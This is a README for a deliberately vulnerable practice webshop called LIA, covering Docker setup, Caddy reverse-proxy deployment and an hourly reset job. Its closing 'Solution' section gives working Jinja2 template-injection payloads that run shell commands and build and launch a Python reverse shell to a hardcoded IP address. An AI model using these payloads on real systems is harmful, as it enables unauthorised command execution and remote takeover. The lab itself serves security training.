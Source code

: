 # LIA:
Webshop selling different stones and minerals

# Configuration, Setup & Run
All configuration can be done in `docker-compose.yml`  
Pay special attention to the port configuration of the php application. It is by default
set to listen only to localhost on port 50000. It is recommended to keep the services internal
and layer it behind a reverse proxy such as nginx with https and appropriate security settings.


To run this you'll need Docker and Docker-compose. Simply build and run it
with the following command:
```
docker-compose up --build -d
```

# Starting point
The application is provided "as is" and no pre-created accounts are needed.


# Run as a Droplet Digital ocean

Make sure the app is up and running and that you asign a (sub)domain and that it works. Then install Caddy Rev proxy for easy https

Add caddy for https and stuff:
```
sudo apt install -y debian-keyring debian-archive-keyring apt-transport-https
curl -1sLf 'https://dl.cloudsmith.io/public/caddy/stable/gpg.key' | sudo gpg --dearmor -o /usr/share/keyrings/caddy-stable-archive-keyring.gpg
curl -1sLf 'https://dl.cloudsmith.io/public/caddy/stable/debian.deb.txt' | sudo tee /etc/apt/sources.list.d/caddy-stable.list
sudo apt update
sudo apt install caddy
```

Edit /etc/caddy/Caddyfile :

```
lia.appsec.nu {

        reverse_proxy localhost:5000
                header {
                server: HappyHacking
        }
        log {
		output file /var/log/caddy/access.log
  		}
```
restart caddy:

```
sytemctl restart caddy
```

View logs live:

```
tail -f /var/log/caddy/access.log | jq
tail -f /var/log/caddy/access.log | jq  '[.resp_headers.Date[],.request.headers."User-Agent",.request.method, .request .uri, .request .remote_ip]'
```


# ***Add deploy-script and auto-reset via crontab

You could add a deploy.sh like below MIND the path:
```
sudo docker-compose down -v
sudo docker rm -f $(sudo docker ps -a -q)
sudo docker system prune -a -f
sudo docker-compose -f /root/lia/docker-compose.yml up --build -d
```

Add to crontab with:
```
sudo crontab -e
```
and add something like this (resets minute 0 every hour) MIND the path:

```
0 * * * * /bin/sh /root/stone/app2/deploy.sh >/dev/null 2>&1

```
# Solution:

Find availibel mro's and the number by using the following payload in name or cover letter input fields (in this particular docker container it was 351)

```
{{ ''.__class__.__mro__[1].__subclasses__() | map(attribute='__name__') | list }}
```

List files or make simple commands:

```
{{ ''.__class__.__mro__[1].__subclasses__()[351]('ls', shell=True, stdout=-1).communicate()[0] }}
```
```
{{ ''.__class__.__mro__[1].__subclasses__()[351]('echo Mikael >> lia.txt', shell=True, stdout=-1).communicate() }}

```
Or maybe the simplest variant

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Create a reverse shell python file:
```
{{ ''.__class__.__mro__[1].__subclasses__()[351]('echo "import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\'167.99.247.129\',9999)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\'/bin/sh\',\'-i\']);" > /tmp/reverse_shell.py', shell=True, stdout=-1).communicate() }}
```

Execute the reverse shell:
```
{{ ''.__class__.__mro__[1].__subclasses__()[351]('python3 /tmp/reverse_shell.py', shell=True, stdout=-1).communicate() }}
```



# Author
Created by Mikael Svall 2024
